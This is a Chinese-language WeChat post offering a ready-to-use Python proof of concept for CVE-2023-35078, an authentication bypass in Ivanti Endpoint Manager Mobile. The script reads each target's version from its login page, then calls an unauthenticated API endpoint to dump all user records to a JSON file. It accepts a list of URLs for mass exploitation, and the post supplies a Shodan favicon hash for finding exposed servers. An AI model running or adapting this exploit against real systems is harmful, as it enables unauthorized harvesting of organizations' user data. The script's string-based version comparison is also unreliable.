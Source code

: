 #  Ivanti EPMM未授权api访问漏洞POC

SecHaven  [ 赛哈文 ](javascript:void\(0\);)

**赛哈文** ![]()

微信号 SecHaven

功能介绍 本公众号专注于分享web安全、移动安全、车联网安全等方面的技术文章或最新动态，将不定期推送相关技术文章和案例分析。

____

___发表于_

收录于合集

**漏洞描述：**

  

Ivanti Endpoint Manager Mobile
(EPMM)的身份验证绕过漏洞允许未经授权的用户在没有适当身份验证的情况下访问应用程序的受限功能或资源。

  

 **影响版本：**

  

影响了支持的版本11.10、11.9和11.8，以及目前已报废（EoL）的版本。

 **网络资产测绘：**

  

 **  
**

shodan:  

  * 

    
    
    http.favicon.hash:362091310

  

  

  

 **POC代码：**  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     import requestsimport argparseimport urllib3  
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
      
    def banner():    print("""         Ivanti Endpoint Manager Mobile远程未经身份验证的api访问漏洞                use: python cve_2023_35078_poc.py -u http:// or python cve_2023_35078_poc.py -f urls.txt                         Author: kento-sec""")  
      
    def check_ivanti_mobileiron_version(url):    try:        r = requests.get(url, verify=False)        if r.status_code == 200:            version_start = r.text.find("ui.login.css?")            if version_start != -1:                version_end = r.text.find('"', version_start)                version = r.text[version_start + len("ui.login.css?"):version_end]                print(f"[*] 目标版本: {version}")                if version <= "11.4":                    print(f"[+] 目标存在该漏洞! {url}")                    return True                else:                    print(f"[-] 目标没有漏洞! {url}")                    return False            else:                print(f"[-] 目标没有漏洞! {url}")        else:            print(f"[-] 目标没有漏洞! {url}")    except Exception as e:        print(f"[-] 发生错误: {str(e)}")  
      
    def get_users(url):    vuln_url = url + "/mifs/aad/api/v2/authorized/users?adminDeviceSpaceId=1"    print(f"[*] 利用目标... {url}")    try:        r = requests.get(vuln_url, verify=False)        if r.status_code == 200:            print("[+] 提取数据:")            print(f"[*] Dumping all users from {vuln_url}")            # Save JSON response to a file with 'utf-8' encoding            # Create a file name with the target URL            filename = url.split("//")[1].split("/")[0] + ".json"            with open(filename, "w", encoding="utf-8") as f:                f.write(r.text)            print("[+] 数据保存到文件: " + filename)            print("[+] 成功利用漏洞进行攻击!")            print("")        else:            print("[-] 攻击失败. 目标没有漏洞.")    except Exception as e:        print(f"[-] 发生错误: {str(e)}")  
      
    def main():    parser = argparse.ArgumentParser(        description='Ivanti Endpoint Manager Mobile远程未经身份验证的api访问漏洞 CVE-2023-35078')    parser.add_argument('-u', '--url', help='要利用的URL', required=False)    parser.add_argument('-f', '--file', help='包含URL的文件', required=False)  # To check multiple URLs.    args = parser.parse_args()    banner()    if args.file:        print("[*] 从文件中读取URL...")        with open(args.file, "r") as f:            urls = f.readlines()            for url in urls:                try:                    # ignore empty lines                    if url == "\n":                        continue                    url = url.strip()                    print(f"[*] 目标: {url}")                    is_vulnerable = check_ivanti_mobileiron_version(url)                    if is_vulnerable:                        get_users(url)                except Exception as e:                    continue    elif args.url:        print(f"[*] 目标: {args.url}")        is_vulnerable = check_ivanti_mobileiron_version(args.url)        if is_vulnerable:            get_users(args.url)  
      
    if __name__ == "__main__":    main()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

